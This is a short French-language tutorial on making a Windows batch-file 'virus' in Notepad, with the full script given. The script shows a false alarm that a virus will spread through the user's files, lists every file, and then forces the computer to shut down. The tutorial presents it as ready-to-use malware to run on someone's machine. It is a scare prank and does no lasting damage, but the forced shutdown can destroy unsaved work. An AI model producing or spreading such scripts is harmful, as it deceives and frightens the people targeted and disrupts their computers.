



Comment crée un virus ".bat" sur Bloc-note
Je vais vous apprendre à coder un virus en ".bat" sur Bloc-note
- Pour commencer allez sur votre bureau ou dans un dossier,faites clique droit,nouveau et Document texte
- Puis ouvrez le fichier et écriver le code ci dessous
@echo off
echo UN VIRUS A ETE DETECTER
echo IL SE PROPAGERA DANS VOS FICHIER DANS 10 SECONDE
timeout 10
cd..
dir /s
shutdown /s

- Puis vous faite, fichier, et enregistrer sous et vous nommer le fichier "virus.bat"

- Maintenant votre virus est prêt